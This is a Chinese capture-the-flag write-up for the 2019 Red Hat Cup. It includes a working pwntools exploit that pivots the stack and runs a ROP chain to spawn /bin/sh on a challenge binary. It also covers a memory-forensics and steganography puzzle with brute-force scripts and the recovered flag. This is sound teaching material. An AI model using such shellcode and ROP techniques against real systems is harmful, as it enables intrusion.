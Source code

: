 ```yaml
---
title: 2019年第三届红帽杯线上赛wp
visitors: 阅读量
copyright: true
abbrlink: 8243251e
date: 2019-11-16 01:37:24
updated: 2019-11-16 01:37:24
tags:
categories:
password:
top:
---
```


# PWN

## three

IDA打开之后，函数名都是``sub_xxx``，然后通过nc官方部署的程序（或本地在程序所在目录创建flag文件后），获得程序中会出现的字符串定位到了重要函数，我用的是字符串``Maybe is good``。

贴出来一下重要函数对应的内存地址：

| 函数名（已重命名） | 内存地址   |
| ------------------ | ---------- |
| main               | 0x08048CA8 |
| load_flag          | 0x080488C5 |
| Maybe_is_good      | 0x0804897E |
| main_method        | 0x08048B5C |

四者结构如图：

![四者结构](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191112231835.png)

``load_flag``里面需要加载flag文件，如果没有就exit，也就是一开始无法本地打开原因。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191112232013.png)

Maybe_is_good 里面没有特别的，关键在main_method，先贴出完整代码（以重名部分函数&注释）

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191112232152.png)

gdb调试：'very much' 后输入 'aaa'，'tell me' 后输入 'bbbbbbbbbbb······'。可以看到eax被写入了'aaa'，ecx被写入了'bbbbbbbbbbbbbbbbbbb····'

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191112232844.png)

然后就是第22行代码，看不懂就查汇编，对应的汇编是``call eax``。就是当eax是函数来调用。结合前面的eax会被覆写为输入值，就可以进行**ROP**。

攻击大致流程如下：

1. eax被覆写为payload1
2. 写入payload2
3. call eax
4. int80_call

```python
#!/usr/bin/python2
# -*- coding:utf-8 -*-
from pwn import *


context.log_level = 'debug'
elf = ELF('./pwn')
# 'ldd ./pwn' get libc.so
# libc = ELF('./libc-2.27.so')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

sh = process('./pwn')
sh.sendlineafter('index:\n', str(0)) # 0<=x<=31

payload = asm('''
xchg ecx, esp
ret
''',arch = 'i386')
sh.sendafter(' much!\n', payload)

sh.sendlineafter('size:\n', str(512)) # 0<=x<=512,x>payload

# ROPgadget
layout = [
    0x08072fb1, #: pop edx; pop ecx; pop ebx; ret; 
    0,
    0,
    0x80f6d40, # '/bin/sh\0' address
    0x080c11e6, #: pop eax; ret; 
    11, # len '/bin/sh\0'
    0x080738c0, #: int 0x80; ret; 
]
sh.sendafter('me:\n', flat(layout).ljust(0x80, '\0') + '/bin/sh\0')

sh.interactive()
```

**EXP解释**

* 13、21行两个数值可在注释范围内调整
* payload是交换ecx、esp两个寄存器的值
* layout里面是gadget，向int_80传参
* int_80的作用类似于system，具体看这里
  * https://blog.csdn.net/fivedoumi/article/details/53184797
  * https://blog.csdn.net/maowenl/article/details/32309683
  * https://www.cnblogs.com/caesarxu/p/3261232.html

最后：官方wp解法是交换ecx、esp的内容之后，利用返回值是``1``还是``2``，来逐个字节爆破得出flag。

## Mics

### Advertising for Marriage

内存取证题目。题目给出的是raw文件，这个文件不是图片的那个raw。。。初次之外内存取证还有**dmg**文件。利用的分析工具最主要是``volatility``。

首先查看镜像信息：``volatility -f Advertising\ for\ Marriage.raw imageinfo``

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191115194954.png)

使用 `WinXPSP2x86` 预设。然后就是查进程：``volatility -f Advertising\ for\ Marriage.raw --profile=WinXPSP2x86 pslist``

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191115195158.png)

存在记事本进程，查一查有什么：``volatility -f Advertising\ for\ Marriage.raw --profile=WinXPSP2x86 notepad``

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191115195319.png)

提示：`hint:????needmoneyandgirlfirend`

扫描所有png文件：``volatility  -f Advertising\ for\ Marriage.raw --profile=WinXPSP2x86 filescan|grep png``

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191115195554.png)

找到一张 `png` 图片：`vegetable.png`。导出图片：``volatility  -f Advertising\ for\ Marriage.raw --profile=WinXPSP2x86 dumpfiles -D . -Q 0x000000000249ae78``

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191115195756.png)

图片无法显示，报错：`IHDR: CRC ERROR`。

估计图片尺寸被修改了。

用脚本计算图片实际长度和宽度，并且生成修复后的图片。

```python
import os
import binascii
import struct

img = open("vegetable.png", "rb").read()

for w in range(1024):
    for h in range(1024):
        data = img[0xc:0x10] + struct.pack('>i',w) + struct.pack('>i',h) + img[0x18:0x1d]
        crc32 = binascii.crc32(data) & 0xffffffff
        if crc32 == struct.unpack('>i',img[0x1d:0x21])[0] & 0xffffffff:
            print w, h
            print hex(w), hex(h)
            open("vegetable_new.png", "wb").write(img[:0xc] + data + img[0x1d:])
            exit()
```

用 `Stegsolve` 查看图片，找到模糊的 `flag`，一般情况较难恢复。同时，也发现 `lsb` 有点东西。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191116000941.png)

解密需要密钥，密钥为上面记事本找到的提示：`????needmoneyandgirlfirend`，需要魔改工具爆破前 4 字节。

爆破得到密钥 `b1cxneedmoneyandgirlfirend`，这里给出自己写的破解脚本，需要把``lsb加密库``clone [下载](<https://github.com/livz/cloacked-pixel>)，然后把脚本丢里面运行

```python
#coding:utf-8
import os
import string

# creat password
password = []
pd_element =  list(string.ascii_letters) + list(string.digits)
for i in pd_element:
	if i != 'b':
		continue
	for j in pd_element:
		#if j != '1':
			#continue
		for k in pd_element:
			for m in pd_element:
				password.append(i+j+k+m+"needmoneyandgirlfirend")
				#pd = i+j+k+m+"needmoneyandgirlfirend"
				#print "password = %s " %pd

n = 0
file_name = '2.png' # 解密的图片
out_file_1 = 'out.txt' # lsb中间文件
out_file_2 = 'result.txt' # result结果记录文件
for pd in password:
	out_data_2= open(out_file_2,'a')
	pd = 'b1cxneedmoneyandgirlfirend'
	try:
		print "total try {} times\ntrying: {}".format(n,pd)
		argv = r'python lsb.py extract ' + file_name  + ' ' + out_file_1 + ' '+ pd 
		lsb  =  os.popen(argv,'r')
		data = lsb.read()
		lsb.close()
		print "{} SUCCESS".format(pd)
		out_data_1 = open(out_file_1,'r')
		data = out_data_1.read().strip('\n')
		out_data_2.write(data+'\n')
		n += 1
		break
	except:
		print "{} ERROR".format(pd)
		n += 1
	out_data_2.close()

```

解密图片隐写信息，得到字符串：`VmlyZ2luaWEgY2lwaGVydGV4dDpnbnh0bXdnN3IxNDE3cHNlZGJzNjI1ODdoMA==`。

`base64` 解码得到：`Virginia ciphertext:gnxtmwg7r1417psedbs62587h0`。

然后再使用在线维吉尼亚密码解密：密钥``b1cxneedmoneyandgirlfirend``

解密得到： `flagisd7f1417bfafbf62587e0`。